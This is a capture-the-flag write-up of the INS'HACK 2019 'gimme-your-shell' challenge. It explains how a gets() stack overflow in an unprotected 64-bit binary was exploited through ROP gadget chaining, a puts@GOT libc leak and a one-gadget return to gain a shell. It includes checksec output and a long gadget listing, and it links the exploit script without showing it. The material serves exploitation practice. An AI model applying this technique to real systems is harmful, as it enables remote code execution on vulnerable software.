






### writeup by p4w@beerPWN team

# INS'HACK 2019 CTF
## gimme-your-shell PWN challnge

This is not the intended solution for this challenge since i used ROP to solve it.
We have a 64-bit <a href="./weak">binary</a> and the libc of the remote server is NOT provided.
Let's start with a little bit of reverse on the binary.
As we can see from the image below the main() function will call the vuln() function.



The assembly of vuln() function show us that dangerous function 'gets()' will be used.



As we can see from the man page the gets(*s) function will read until \n or EOF, but there is no control on how many byte it will read and consequently write into *s.



By reading the vuln function we can see that the argument for the gets function will be a variable located into the stack.
So what we expect from this is a stack-buffer overflow.
Let's verify this:



Segfault! After 24 bytes we can overwrite the saved ret address.
<br>
Let's also check for the protection on the binary
```
$ checksec ./weak
Canary                        : No
NX                            : No
PIE                           : No
Fortify                       : No
RelRO                         : No
```
As we can see the binary has no protection at all. So potentially we can also inject a shellcode into the stack and jump on it, but instead of this i managed to do full ROP.
What i want to do to solve this challenge was make a memory-leak, restart execution and then ret2libc address to gain a shell.
So what i did at this point was start to find some gadgets.
```
$ ROPgadget --binary ./weak --depth 40
```

### The problem
As we can see from the dump there are NOT simple gadget like 'pop rdi' to control registers.
```
$ ROPgadget --binary ./weak --depth 40 |grep pop|grep ret
0x0000000000400519 : add al, 0x20 ; add byte ptr [rcx], al ; add rsp, 8 ; pop rbx ; pop rbp ; ret
0x0000000000400510 : add byte ptr [rax + 0x39], cl ; fdiv dword ptr [rdx - 0x1e] ; mov byte ptr [rip + 0x2004fb], 1 ; add rsp, 8 ; pop rbx ; pop rbp ; ret
0x0000000000400509 : add byte ptr [rax - 0x75], cl ; add eax, 0x20050f ; cmp rax, rbx ; jb 0x400512 ; mov byte ptr [rip + 0x2004fb], 1 ; add rsp, 8 ; pop rbx ; pop rbp ; ret
0x000000000040051b : add byte ptr [rcx], al ; add rsp, 8 ; pop rbx ; pop rbp ; ret
0x000000000040050c : add eax, 0x20050f ; cmp rax, rbx ; jb 0x40050f ; mov byte ptr [rip + 0x2004fb], 1 ; add rsp, 8 ; pop rbx ; pop rbp ; ret
0x000000000040050e : add eax, 0x39480020 ; fdiv dword ptr [rdx - 0x1e] ; mov byte ptr [rip + 0x2004fb], 1 ; add rsp, 8 ; pop rbx ; pop rbp ; ret
0x0000000000400698 : add ecx, dword ptr [rax - 0x7d] ; clc ; push qword ptr [rbp - 0xf] ; add rsp, 8 ; pop rbx ; pop rbp ; ret
0x000000000040051e : add esp, 8 ; pop rbx ; pop rbp ; ret
0x000000000040051d : add rsp, 8 ; pop rbx ; pop rbp ; ret
0x000000000040050f : and byte ptr [rax], al ; cmp rax, rbx ; jb 0x40050c ; mov byte ptr [rip + 0x2004fb], 1 ; add rsp, 8 ; pop rbx ; pop rbp ; ret
0x000000000040069b : clc ; push qword ptr [rbp - 0xf] ; add rsp, 8 ; pop rbx ; pop rbp ; ret
0x000000000040069a : cmp eax, -1 ; jne 0x40069b ; add rsp, 8 ; pop rbx ; pop rbp ; ret
0x0000000000400512 : cmp eax, ebx ; jb 0x400509 ; mov byte ptr [rip + 0x2004fb], 1 ; add rsp, 8 ; pop rbx ; pop rbp ; ret
0x0000000000400699 : cmp rax, -1 ; jne 0x40069c ; add rsp, 8 ; pop rbx ; pop rbp ; ret
0x0000000000400511 : cmp rax, rbx ; jb 0x40050a ; mov byte ptr [rip + 0x2004fb], 1 ; add rsp, 8 ; pop rbx ; pop rbp ; ret
0x0000000000400513 : fdiv dword ptr [rdx - 0x1e] ; mov byte ptr [rip + 0x2004fb], 1 ; add rsp, 8 ; pop rbx ; pop rbp ; ret
0x000000000040069e : int1 ; add rsp, 8 ; pop rbx ; pop rbp ; ret
0x0000000000400514 : jb 0x400507 ; mov byte ptr [rip + 0x2004fb], 1 ; add rsp, 8 ; pop rbx ; pop rbp ; ret
0x000000000040069d : jne 0x400698 ; add rsp, 8 ; pop rbx ; pop rbp ; ret
0x0000000000400516 : mov byte ptr [rip + 0x2004fb], 1 ; add rsp, 8 ; pop rbx ; pop rbp ; ret
0x0000000000400697 : mov eax, dword ptr [rbx] ; cmp rax, -1 ; jne 0x40069e ; add rsp, 8 ; pop rbx ; pop rbp ; ret
0x000000000040050b : mov eax, dword ptr [rip + 0x20050f] ; cmp rax, rbx ; jb 0x400510 ; mov byte ptr [rip + 0x2004fb], 1 ; add rsp, 8 ; pop rbx ; pop rbp ; ret
0x0000000000400696 : mov rax, qword ptr [rbx] ; cmp rax, -1 ; jne 0x40069f ; add rsp, 8 ; pop rbx ; pop rbp ; ret
0x000000000040050a : mov rax, qword ptr [rip + 0x20050f] ; cmp rax, rbx ; jb 0x400511 ; mov byte ptr [rip + 0x2004fb], 1 ; add rsp, 8 ; pop rbx ; pop rbp ; ret
0x0000000000400693 : or bh, bh ; ror byte ptr [rax - 0x75], 1 ; add ecx, dword ptr [rax - 0x7d] ; clc ; push qword ptr [rbp - 0xf] ; add rsp, 8 ; pop rbx ; pop rbp ; ret
0x0000000000400507 : or byte ptr [rax], ah ; mov rax, qword ptr [rip + 0x20050f] ; cmp rax, rbx ; jb 0x400514 ; mov byte ptr [rip + 0x2004fb], 1 ; add rsp, 8 ; pop rbx ; pop rbp ; ret
0x0000000000400522 : pop rbp ; ret
0x0000000000400521 : pop rbx ; pop rbp ; ret
0x0000000000400638 : pop rsp ; and al, 8 ; mov rbp, qword ptr [rsp + 0x10] ; mov r12, qword ptr [rsp + 0x18] ; mov r13, qword ptr [rsp + 0x20] ; mov r14, qword ptr [rsp + 0x28] ; mov r15, qword ptr [rsp + 0x30] ; add rsp, 0x38 ; ret
0x000000000040069c : push qword ptr [rbp - 0xf] ; add rsp, 8 ; pop rbx ; pop rbp ; ret
0x0000000000400695 : ror byte ptr [rax - 0x75], 1 ; add ecx, dword ptr [rax - 0x7d] ; clc ; push qword ptr [rbp - 0xf] ; add rsp, 8 ; pop rbx ; pop rbp ; ret
0x0000000000400518 : sti ; add al, 0x20 ; add byte ptr [rcx], al ; add rsp, 8 ; pop rbx ; pop rbp ; ret
0x000000000040050d : syscall ; and byte ptr [rax], al ; cmp rax, rbx ; jb 0x40050e ; mov byte ptr [rip + 0x2004fb], 1 ; add rsp, 8 ; pop rbx ; pop rbp ; ret
```
Then i start to search for more complicated gadgets that chained together they will make me get control over rdi register (at least).
The first gadget that i picked was this one:
```
0x0000000000400637 : mov ebx, dword ptr [rsp + 8] ; mov rbp, qword ptr [rsp + 0x10] ; mov r12, qword ptr [rsp + 0x18] ; mov r13, qword ptr [rsp + 0x20] ; mov r14, qword ptr [rsp + 0x28] ; mov r15, qword ptr [rsp + 0x30] ; add rsp, 0x38 ; ret
```
and this is the second one:
```
0x0000000000400620 : mov rdx, r15 ; mov rsi, r14 ; mov edi, r13d ; call qword ptr [r12 + rbx*8]
```
With the first one we can basically get control over `ebx, rbp, r12, r13, r14, r15` by writing double/quad words into the stack at the correct offsett.<br>
Then we can use the second gadget that end with a *call* instruction to make a call on a function that we want.<br>
Since for now i just want to leak some libc address i'm just interesting on controlling rdi register with some GOT address and then call puts@GOT.
The second gadget make a `mov edi, r13d` then we need to place leak-addr@GOT into `r13` with the first gadget in this way, when we land on the second gadget, the contents of r13 will be placed into rdi.
I also need to make a call on puts() with the second gadget, then i need to set `rbx=0` and `r12=puts@GOT`, and again i can do that with the first gadget.
We just need one more little thing to make all work, look closely at the second gadgets



after the call instruction we have three instruction
```
000000000040062d         add        rbx, 0x1
0000000000400631         cmp        rbx, rbp
0000000000400634         jne        loc_400620
```
basically it's a loop. To exit from that loop and go over we need to make `rbx=rbp`, then with the first gadget we need to set `ebx=0` and `rbp=1`.
<br>
Now that we are able to leak we just need restart execution to repeat the buffer-overflow again and this time (after <a href="https://libc.blukat.me/">libc version evaluation</a>) we can overwrite the ret address with one-gadget to gain the shell.
<br>
Getting the flag :)



You can check the full <a href="./x.py">exploit</a> here.

After the CTF, speaking with the admin i discovered that the intended way for this one was simply to jump on a shellcode since the stack was executable. I didn't manage to do it that way cause i assumed the ASLR was enabled on the remote system, but i was WRONG. Actually the ASLR was disabled and then we can predict where the shellcode will be placed. So i did a mistake but i managed to solve it in another way, and sinceraly I'm happy of that just because I could learn more doing it.
<br>
Cheers, p4w ;)
